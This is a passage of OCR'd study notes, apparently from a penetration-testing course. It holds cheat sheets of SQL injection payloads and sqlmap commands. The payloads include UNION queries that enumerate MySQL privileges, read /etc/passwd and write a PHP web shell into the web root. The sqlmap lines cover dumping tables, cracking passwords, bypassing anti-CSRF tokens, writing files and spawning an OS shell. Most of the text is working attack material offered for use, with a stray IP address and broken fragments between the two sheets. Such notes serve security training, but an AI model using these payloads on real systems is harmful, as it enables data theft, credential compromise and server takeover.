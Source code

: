 Privileges	
cn' UNION SELECT 1, user(), 3, 4-- -	Find current user
cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="root"-- -	Find if user has admin privileges
cn' UNION SELECT 1, grantee, privilege_type, is_grantable FROM information_schema.user_privileges WHERE user="root"-- -	Find if all user privileges
cn' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables where variable_name="secure_file_priv"-- -	Find which directories can be accessed through MySQL
File Injection	
cn' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- -	Read local file
select 'file written successfully!' into outfile '/var/www/html/proof.txt'	Write a string to a local file
cn' union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'-- -	Write a web shell into the base web directory


206.189.28.99:30061
http://weburl?{“id”: 1} i
{"key": value}

  Cheat Sheet
The cheat sheet is as a useful command reference for this module.

Command	Description
sqlmap -h	View the basic help menu
sqlmap -hh	View the advanced help menu
sqlmap -u "http://www.example.com/vuln.php?id=1" --batch	Run SQLMap without asking for user input
sqlmap 'http://www.example.com/' --data 'uid=1&name=test'	SQLMap with POST request
sqlmap 'http://www.example.com/' --data 'uid=1*&name=test'	POST request specifying an injection point with an asterisk
sqlmap -r req.txt	Passing an HTTP request file to SQLMap
sqlmap ... --cookie='PHPSESSID=ab4530f4a7d10448457fa8b0eadac29c'	Specifying a cookie header
sqlmap -u www.target.com --data='id=1' --method PUT	Specifying a PUT request
sqlmap -u "http://www.target.com/vuln.php?id=1" --batch -t /tmp/traffic.txt	Store traffic to an output file
sqlmap -u "http://www.target.com/vuln.php?id=1" -v 6 --batch	Specify verbosity level
sqlmap -u "www.example.com/?q=test" --prefix="%'))" --suffix="-- -"	Specifying a prefix or suffix
sqlmap -u www.example.com/?id=1 -v 3 --level=5	Specifying the level and risk
sqlmap -u "http://www.example.com/?id=1" --banner --current-user --current-db --is-dba	Basic DB enumeration
sqlmap -u "http://www.example.com/?id=1" --tables -D testdb	Table enumeration
sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb -C name,surname	Table/row enumeration
sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb --where="name LIKE 'f%'"	Conditional enumeration
sqlmap -u "http://www.example.com/?id=1" --schema	Database schema enumeration
sqlmap -u "http://www.example.com/?id=1" --search -T user	Searching for data
sqlmap -u "http://www.example.com/?id=1" --passwords --batch	Password enumeration and cracking
sqlmap -u "http://www.example.com/" --data="id=1&csrf-token=WfF1szMUHhiokx9AHFply5L2xAOfjRkE" --csrf-token="csrf-token"	Anti-CSRF token bypass
sqlmap --list-tampers	List all tamper scripts
sqlmap -u "http://www.example.com/case1.php?id=1" --is-dba	Check for DBA privileges
sqlmap -u "http://www.example.com/?id=1" --file-read "/etc/passwd"	Reading a local file
sqlmap -u "http://www.example.com/?id=1" --file-write "shell.php" --file-dest "/var/www/html/shell.php"	Writing a file
sqlmap -u "http://www.example.com/?id=1" --os-shell	Spawning an OS shell
